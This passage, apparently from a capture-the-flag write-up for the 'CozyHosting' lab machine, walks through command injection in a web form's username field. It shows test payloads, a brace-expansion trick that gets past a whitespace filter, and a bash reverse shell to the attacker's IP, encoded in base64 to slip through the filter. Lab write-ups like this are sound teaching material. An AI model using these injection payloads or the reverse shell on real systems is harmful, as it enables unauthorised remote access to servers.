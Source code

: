Putting a common CI[^4] testing payload, gives us back a different error message related to **whitespaces** (Figure 8).

```
# Payload 1
host=10.10.14.22&username=;sleep 2;
```

<figure><img src="../../.gitbook/assets/cozyhosting_whitespaces.png" alt=""><figcaption></figcaption></figure>

Whitespaces are commonly blacklisted, but, luckily for us, there are a [lot of ways](../../tl-dr/web/injections/ci/filters.md#blacklisted-characters) to bypass this restriction, one of them is [brace expansion](https://www.geeksforgeeks.org/bash-brace-expansion-in-linux-with-examples/) (Figure 9).

```
# Payload 2
host=10.10.14.22&username=;{sleep,2};
```

<figure><img src="../../.gitbook/assets/cozyhosting_bypass_whitespaces.png" alt=""><figcaption><p>Figure 9: Bypassing whitespace restrictions.</p></figcaption></figure>

We are successful on injecting our `sleep` command, so we now have to create a revershel shell payload. We will need to [encode our payload](../../tl-dr/web/injections/ci/filters.md#encoding) and get rid any "dangerous" characters, such as `+` and `=`, which have their own interpretation within HTTP requests.

```bash
# Encoding the revershe shell code
$ echo 'bash -i >& /dev/tcp/10.10.14.22/1337 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi8xMzM3IDA+JjEK
# Removing the '+' symbols
$ echo 'bash -i  >& /dev/tcp/10.10.14.22/1337  0>&1' | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjIvMTMzNyAgMD4mMQo=
# Removing the equal sign at the end
$ echo 'bash -i  >& /dev/tcp/10.10.14.22/1337  0>&1 ' | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjIvMTMzNyAgMD4mMSAK
```


[^1]: Database Management System
[^2]: Database Admin
[^3]: Living off The Land
[^4]: Command Injection